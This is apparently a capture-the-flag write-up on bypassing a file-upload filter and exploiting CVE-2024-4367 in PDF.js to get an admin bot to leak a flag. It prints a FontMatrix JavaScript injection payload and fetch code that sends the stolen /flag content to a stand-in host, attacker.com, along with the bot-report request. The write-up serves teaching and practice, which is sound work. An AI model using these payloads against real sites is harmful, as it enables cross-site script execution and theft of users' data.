 
# 🚀 **Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag**

![Challenge Banner](https://via.placeholder.com/1200x400.png?text=Mysterious+File+Upload+Journey)

### **Challenge Information**
- **Name:** Navigate a Mysterious File Upload Journey  
- **Challenge URL:** [http://172.206.89.197:9000/](http://172.206.89.197:9000/)  
- **Bot URL:** [http://172.206.89.197:9000/report](http://172.206.89.197:9000/report)  
- **Attachment:** [upload.zip](./upload.zip)  
- **Author:** [@S0nG0ku](https://twitter.com/s0ng0ku)  

---

## **📖 Introduction**
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

1. Register on the platform.
2. Analyze the upload feature.
3. Exploit PDF.js to execute arbitrary JavaScript.
4. Retrieve the flag using the admin bot.

---

## **🕵️ Recon and Discovery**

### **1️⃣ Homepage**
The homepage presents a **login/register** feature and a basic upload interface.

![Homepage Screenshot](https://via.placeholder.com/600x300.png?text=Homepage+Mockup)

### **2️⃣ Upload Feature**
Upon logging in, we access the **upload form**. The filter applied here is based only on **MIME type** validation, making it susceptible to tampering.

```html
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
```

This weakness invites further exploration, but before rushing into bypasses, we check additional features.

---

## **⚙️ Understanding the Bot**
- **Behavior:** The admin bot visits **local URLs** shared through the application, verified using a **regex filter**.  
- **Access Scope:** The bot has privileged access to the `/flag` endpoint, which is restricted to **local IPs only (127.0.0.1)**.

---

## **💡 The Exploit Plan**
To retrieve the flag, we'll use the following approach:

1. **Upload a malicious PDF** containing JavaScript to access `/flag` and send its content to our external server.  
2. **Send the bot a link** to the malicious PDF file hosted on the challenge server.  
3. The bot will execute our JavaScript and exfiltrate the flag to us.

---

## **📜 Crafting the Malicious PDF**
The platform uses **PDF.js** for rendering uploaded PDF files. A known vulnerability, **CVE-2024-4367**, allows **arbitrary JavaScript execution** through the `FontMatrix` attribute.

### **Vulnerability Exploit**
The payload injects JavaScript by escaping parentheses in the `FontMatrix` field:
```javascript
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
```

### **Steps to Create the PDF**
1. Use a PDF generation tool (e.g., [PDFEdit](https://pdfedit.cz/) or Python libraries like `fpdf`) to embed the exploit.
2. Ensure all parentheses are escaped to prevent premature interpretation.

---

## **🖥️ Exploiting the Bot**
1. Upload the malicious PDF file.
2. Grab the file's URL and modify it to point to `127.0.0.1:5000/view/<filename>` for local bot access.
3. Send the URL to the bot via the provided reporting feature.

```plaintext
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
```

4. Wait for the bot to visit the URL and execute the JavaScript.

---

## **🏁 Retrieving the Flag**
Once the bot executes the script, it fetches the flag from `/flag` and sends it to our server:
```javascript
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
```

The flag will appear in your server logs, and in this case, it's:

```plaintext
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
```

---

## **🎯 Key Takeaways**
1. **MIME Type Filters:** Always validate files using deeper inspection (e.g., content-based validation).
2. **Bot Exploits:** Bots with local access should have strict sandboxing to prevent malicious exploitation.
3. **PDF.js Vulnerabilities:** Always use the latest versions of libraries to patch known vulnerabilities.

---

## **📚 Resources**
- [PDF.js Documentation](https://mozilla.github.io/pdf.js/)
- [CVE-2024-4367 Details](https://cve.mitre.org/)
- [PDF Injection with JavaScript](https://codeanlabs.com/pdf-js-injection)
- [File Upload Security Best Practices](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## **🌈 Bonus: Make It Your Own!**
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:
- **File upload bypass techniques.**
- **Exploiting vulnerable libraries.**
- **Exfiltration using JavaScript payloads.**

> **Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.

---
